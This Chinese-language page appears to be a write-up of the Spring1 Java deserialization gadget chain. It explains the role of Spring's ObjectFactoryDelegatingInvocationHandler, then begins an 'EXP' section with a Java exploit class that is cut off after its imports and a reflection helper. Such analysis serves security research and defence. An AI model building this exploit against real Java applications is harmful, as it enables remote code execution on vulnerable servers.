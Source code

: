 ## ObjectFactoryDelegatingInvocationHandler
`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`是`InvocationHandler`的实现类, 实例化时接收一个`ObjectFactory`对象, 并在`invoke`代理时调用`ObjectFactory`的`getObject`方法返回`ObjectFactory`的实例用于`Method`的反射调用.

由于`ObjectFactory`的`getObject`方法返回的对象是泛型的, 因此可以用`AnnotationInvocationHandler`来代理, 返回任意对象. 而`ObjectFactoryDelegatingInvocationHandler`自己本身就是代理类, 可以用它代理之前的`TypeProvider`的`getType`方法.

<div align=center><img src="./images/2.png"></div>

# EXP
```java
package org.h3rmesk1t.Spring1;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 3:47 下午
 */
public class Spring1Exploit {

    public static Field getField (final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
```